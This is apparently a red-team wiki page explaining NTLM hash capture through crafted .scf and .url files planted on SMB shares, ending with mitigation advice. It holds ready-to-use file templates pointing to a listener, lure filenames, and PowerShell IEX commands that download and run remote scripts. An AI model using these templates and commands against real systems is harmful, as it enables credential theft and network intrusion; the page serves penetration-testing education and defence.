 # URL File Attack

## Description

A URL file attack is a type of network-based exploit that manipulates certain file formats to deceive systems into revealing sensitive information, such as NTLM hashes. This attack exploits the behaviour of URL files (.url), shell command files (.scf), and other file types to initiate connections to an adversary-controlled listener.

An adversary generates files with specific content that directs systems to a network resource managed by the attacker. These files can be of different types, such as .url, .scf, or .lnk:

* **.url File:** A shortcut file that contains a URL pointing to a remote server.
* **.scf File:** A Shell Command File configured to initiate a connection to a remote server.
* **.lnk File:** A Windows shortcut file crafted to point to a remote server.

The attacker distributes these malicious files to potential victims through email attachments, file-sharing services, or other means. When a victim interacts with the file (e.g., opening the file or even just viewing it within explorer), the file triggers the system to connect to the remote server specified in the file.

During the connection attempt, the victim’s system tries to authenticate with the remote server using NTLM (Windows authentication protocol). The attacker’s server captures the NTLM hash, which can then be used for further attacks, such as pass-the-hash attacks.

This document covers delivery through means of SMB shares.

## File Templates

{% tabs %}
{% tab title="@file.scf" %}
```
[Shell]
Command=2
IconFile=\\[Listener-IP]\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```
{% endtab %}

{% tab title="@file.url" %}
```
[InternetShortcut]
URL=\\[Listener-IP]\share
```
{% endtab %}
{% endtabs %}

### Downloadable templates (Edit with Notepad)

* [Template 1 ](https://github.com/The-Viper-One/RedTeam-Pentest-Tools/blob/main/NTLM/Coerce/%40Template\_All\_Staff\_Salary\_Grades.scf)
* [Template 2 ](https://github.com/The-Viper-One/RedTeam-Pentest-Tools/blob/main/NTLM/Coerce/%40Template\_Invoice\_June2024.url)



## Performing the attack from Windows

### Tools Required

* Inveigh: [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)
* Invoke-ShareHunter (Optional): [https://github.com/Leo4j/Invoke-ShareHunter](https://github.com/Leo4j/Invoke-ShareHunter)

### Permissions Required

* Local Administrator (If using Inveigh to capture hashes)
* Write permissions over a SMB share



Load Inveigh and configure listener

{% code overflow="wrap" %}
```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

# Load Inveigh and set listener IP (Attack System)
Invoke-Inveigh -ConsoleOutput Y -HTTPS Y -IP 10.10.10.7
```
{% endcode %}

Load Invoke-ShareHunter

{% code overflow="wrap" %}
```powershell
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-ShareHunter/main/Invoke-ShareHunter.ps1')

# Identify writeable shares within the domain
Invoke-ShareHunter -Domain security.local

# Write NTLM coercion files to identified writeable shares
Invoke-URLFileAttack -WritableShares "C:\Users\StandardUser\Shares_Writable.txt"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2159).png" alt=""><figcaption><p>Writing files to writeable shares</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2160).png" alt=""><figcaption><p>Later, a user browses to a share containing the crafted files and a NTLM hash is captured on the listener</p></figcaption></figure>

From this point, various opportunity exists to perform further compromise. The captured Hash may be cracked to reveal the underlying account password or the hash may be relayed using tools such as ntlmrelayx.&#x20;

## Mitigation

**Disable NTLM Authentication**

Disabling NTLM authentication within the domain is the most effective defence against this type of attack and other NTLM coercion-based attacks. However, it is understandable that disabling NTLM authentication within an enterprise may not be easily or quickly achievable for many organizations. In such cases, additional mitigations can be implemented. While these additional measures may not completely eliminate the attack vector, they can offer a degree of protection against this type of attack.

Reference: [https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/active-directory-hardening-series-part-1-disabling-ntlmv1/ba-p/3934787](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/active-directory-hardening-series-part-1-disabling-ntlmv1/ba-p/3934787)



**Audit and restrict SMB share permissions**

URL file attacks are possible when an adversary controlled account has write access to SMB shares within the domain. The best defence here is to audit all SMB shares and remove unexpected or overly permissive write permissions from accounts that do not require that level of access. Broadly, domain user accounts often have write access to an undesirable number of shares within the enterprise and should be revoked.

## References

* [https://www.scip.ch/en/?labs.20210909](https://www.scip.ch/en/?labs.20210909)
* [https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication)

